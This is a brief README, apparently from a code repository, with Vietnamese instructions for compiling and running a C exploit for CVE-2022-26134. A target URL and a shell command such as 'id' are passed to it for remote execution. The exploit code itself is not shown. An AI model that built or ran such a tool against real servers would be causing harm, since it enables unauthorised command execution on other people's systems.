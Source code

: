 # CVE_2022_26134

>Cách biên dịch:
>gcc -o cve2022_26134_exploit cve_2022_26134_exploit.c -lcurl
>Cách chạy:
>./cve2022_26134_exploit https://target.com "id"

